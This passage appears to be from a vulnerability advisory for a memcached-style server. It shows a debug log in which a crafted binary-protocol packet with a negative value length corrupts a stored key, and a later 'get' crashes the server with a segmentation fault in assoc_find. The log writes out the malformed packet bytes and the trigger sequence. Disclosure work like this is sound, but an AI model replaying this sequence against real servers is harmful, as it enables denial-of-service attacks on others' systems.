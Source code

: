 <p nodeIndex="75">A complete server crash can be achieved by simply corrupting an existing item and then trying to retrieve it as demonstrated by the attached proof of concept. In that case, the process crashes in the following manner:</p>
<pre nodeIndex="76">
<code nodeIndex="147"><30 new auto-negotiating client connection
30: going from conn_new_cmd to conn_waiting
30: going from conn_waiting to conn_read
30: going from conn_read to conn_parse_cmd
30: Client using the ascii protocol
<30 set testkey 0 60 4
30: going from conn_parse_cmd to conn_nread
> NOT FOUND testkey
>30 STORED
30: going from conn_nread to conn_write
30: going from conn_write to conn_new_cmd
30: going from conn_new_cmd to conn_waiting
30: going from conn_waiting to conn_read
30: going from conn_read to conn_closing
<30 connection closed.
<30 new auto-negotiating client connection
30: going from conn_new_cmd to conn_waiting
30: going from conn_waiting to conn_read
30: going from conn_read to conn_parse_cmd
30: Client using the binary protocol
<30 Read binary protocol data:
<30    0x80 0x1a 0x00 0xfa
<30    0x00 0x00 0x00 0x00
<30    0x00 0x00 0x00 0x00
<30    0x00 0x00 0x00 0x00
<30    0x00 0x00 0x00 0x00
<30    0x00 0x00 0x00 0x00
30: going from conn_parse_cmd to conn_nread
Value len is -250
Invalid rlbytes to read: len -250
30: going from conn_nread to conn_closing
<30 connection closed.
<30 new auto-negotiating client connection
30: going from conn_new_cmd to conn_waiting
30: going from conn_waiting to conn_read
30: going from conn_read to conn_parse_cmd
30: Client using the ascii protocol
<30 get testkey

Program received signal SIGSEGV, Segmentation fault.
[Switching to Thread 0xb6d3db40 (LWP 530)]
[----------------------------------registers-----------------------------------]
EAX: 0x41 ('A')
EBX: 0x8001ce00 --> 0x1ccf8
ECX: 0x10
EDX: 0xb7d40008 --> 0x0
ESI: 0x41414141 ('AAAA')
EDI: 0xb5423b04 ("testkey")
EBP: 0x7
ESP: 0xb6d3d060 --> 0x0
EIP: 0x80011af7 (<assoc_find+103>:        movzx  eax,BYTE PTR [esi+0x1d])
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80011af0 <assoc_find+96>:    mov    esi,DWORD PTR [esi+0x8]
   0x80011af3 <assoc_find+99>:    test   esi,esi
   0x80011af5 <assoc_find+101>:   je     0x80011b22 <assoc_find+146>
=> 0x80011af7 <assoc_find+103>:        movzx  eax,BYTE PTR [esi+0x1d]
   0x80011afb <assoc_find+107>:   cmp    eax,ebp
   0x80011afd <assoc_find+109>:   jne    0x80011af0 <assoc_find+96>
   0x80011aff <assoc_find+111>:   movzx  eax,BYTE PTR [esi+0x1b]